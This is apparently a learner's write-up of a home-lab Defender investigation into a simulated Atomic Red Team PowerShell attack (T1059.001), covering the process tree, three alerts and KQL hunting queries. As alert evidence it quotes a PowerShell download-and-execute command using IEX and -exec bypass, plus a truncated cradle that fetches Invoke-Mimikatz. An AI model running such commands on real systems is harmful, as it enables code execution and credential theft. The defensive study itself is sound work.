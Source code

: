 # PowerShell Attack Investigation – T1059.001

I wanted to share how I approached this investigation, the steps I took, my thought process and what I learned throughout the analysis.

## Before even looking at the alerts

I had prepared five questions that I wanted to start my investigation:

1. What connects these alerts?
2. Which alert came first?
3. What actually ran?
4. Who did it?
5. What happened next?

## The Process Tree – My Findings

This part was a bit confusing at first because as shown in the screenshot, it looks like [pid 14920] powershell.exe launched [pid 8540] cmd.exe. But after checking the timestamps, I realised that [pid 14920] powershell.exe belonged to an earlier user session. The real chain of events was that [pid 8540] cmd.exe created [pid 12236] powershell.exe, which then used DownloadString with IEX (Invoke-Expression) to pull a script from GitHub and run it directly as PowerShell code. This confirmed that the root cause was an interactive PowerShell session started by Jenny’s remote login, not an automated task or background service. That was the point where the simulated attack really began.

*Insert image link here*

## The Process Tree – What I Learnt

Looking at the process tree, I realised it shows activity that started before the actual attack time. That is because it includes the parent processes, helping you see exactly how the suspicious one was launched. In this case, PowerShell was started interactively under Jenny’s session, not by a background service. Seeing explorer.exe as the parent process confirmed it came from user activity rather than persistence or an automatic startup.

I also found it helpful that the process tree highlights Remote Execution for the chain userinit.exe > explorer.exe > powershell.exe, showing the action took place within an RDP session.

I also noticed that Defender had blocked and resolved several related threats that never appeared on the alert summary although they were displayed in the Process Tree and Incidents. So because Defender stopped the threats before they were executed, it marked them as resolved, which means they no longer required further action and therefore did not show up in the Alerts summary for triage.

## The Alert Timeline – My Findings

### Alert 1: Suspicious PowerShell Command Line

At first I just saw a long PowerShell command but then I realised why Defender flagged it. It had some red flags like IEX (Invoke-Expression), the DownloadString which pulls the GitHub code from the internet and the -exec bypass flag.

Here’s the command Defender caught:

```text
powershell.exe -exec bypass -noprofile "$comMsXml=New-Object -ComObject MsXml2.ServerXmlHttp;$comMsXml.Open('GET','https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1059.001/src/test.ps1',$False);$comMsXml.Send();IEX $comMsXml.ResponseText"
```

The remote session came from 192.168.1.72, logged in as AzureAD\JennySmith.

*Insert image here*

### Alert 2: Suspicious Process Executed PowerShell Command

The details in this alert looked almost identical to the first one however they both tell different things.  
Alert 1 is that Defender noticed a suspicious command.  
Alert 2 confirms that the suspicious command was actually executed.

### Alert 3: Mimikatz Credential Theft Tool

The previous alerts led up to this big one which was the main goal of the attacker. Defender confirmed the suspicious command tried to run the Mimikatz tool, which is known for stealing passwords from memory. The command showed PowerShell trying to download and run the script from GitHub. Defender caught it straight away and marked it as Trojan:PowerShell/Mimikatz.A, blocking it before it could dump any credentials.

The command looked like this:

```text
C:\Windows\System32\cmd.exe /c powershell.exe IEX (New-Object Net.WebClient).DownloadString(...Invoke-Mimikatz.ps1)
```

*Insert image here*

## Advanced Hunting – KQL

So far the Process Tree and Timeline have shown the story that started with a suspicious PowerShell command, then the process actually ran during Jenny’s RDP session, and finally it tried to execute Mimikatz to steal credentials but Defender stopped it. However I was keen to investigate the endpoints further and validate the alerts.

I have listed all my KQL queries here and the results are as follows:

### KQL Query 1 – Confirm PowerShell Execution

The KQL query on DeviceProcessEvents confirmed that at 16:05 BST, Jenny’s VM executed powershell.exe from cmd.exe using the IEX and DownloadString to pull a script from GitHub. This aligns exactly with the Defender alerts for suspicious PowerShell activity and validates that the simulated T1059.001 attack produced real telemetry.

*Insert KQL image results*

At this point, I already had all the answers I needed as far as the simulated attack goes. However I wanted to dig deeper and practise using KQL as if this was a real investigation.

### KQL Query 2 – Look For Mimikatz

This was really interesting! I hunted for the string Invoke-Mimikatz and I got **No Results!** How is this possible when we have already confirmed the attacker’s DownloadString contained Invoke-Mimikatz?

It’s because the malicious code was blocked and never actually ran so there are no logs for it. This is very important to know that Defender Alerts are based on detection and the endpoint telemetry is not the same!

### KQL Query 3 – Look For Spread of the PowerShell Activity

The results showed that only one device ran the suspicious PowerShell command. This was expected because I had only onboarded one endpoint to Defender. I just wanted to practise building the KQL queries.

*Insert KQL image results*

### KQL Query 4 – Look For Persistence

My persistence query came back with no results is because the Atomic Red Team simulation (T1059.001) was only designed to test PowerShell execution, not persistence. It launched a suspicious PowerShell command that Defender detected and blocked straight away, so it never went on to create any scheduled tasks or user accounts.

## Conclusion

I really enjoyed this investigation and found it a great way to put what I have been learning into practice. Running the Atomic Red Team simulation and then hunting through Defender helped me understand how alerts link together and what they actually mean. I want to make the most of this opportunity and keep improving my skills through the MyDFIR Skool and I am very grateful to Steven Mah for guiding us through it.
